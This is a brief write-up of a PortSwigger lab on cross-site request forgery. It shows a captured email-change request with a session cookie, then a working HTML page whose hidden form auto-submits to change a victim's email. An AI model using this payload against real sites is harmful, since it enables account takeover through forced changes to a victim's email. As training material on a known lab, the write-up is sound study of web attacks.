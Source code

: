 [PortSwigger Lab](https://portswigger.net/web-security/csrf/lab-no-defenses)

---

I connected on `wiener:peter` account and captured the email update `POST` form with burp

**Request**
```http
POST /my-account/change-email HTTP/2
Host: 0a3c00ce0374d58f815db1e9004f002c.web-security-academy.net
Cookie: session=G2UvYqSMtUeRAHw1xAAVLnRLz2ETSb3f
Content-Type: application/x-www-form-urlencoded

email=wiener%40normal-user.net
```

With this these information, I can craft the page to send to my victim

```html
<form action="https://0a3c00ce0374d58f815db1e9004f002c.web-security-academy.net/my-account/change-email" method="POST">
	<input type="hidden" name="email" value="kiss@love.you">
</form>
<script>
document.forms[0].submit()
</script>
```

The victim just have to visit the crafted page to update his email and get replaced by `kiss@love.you`

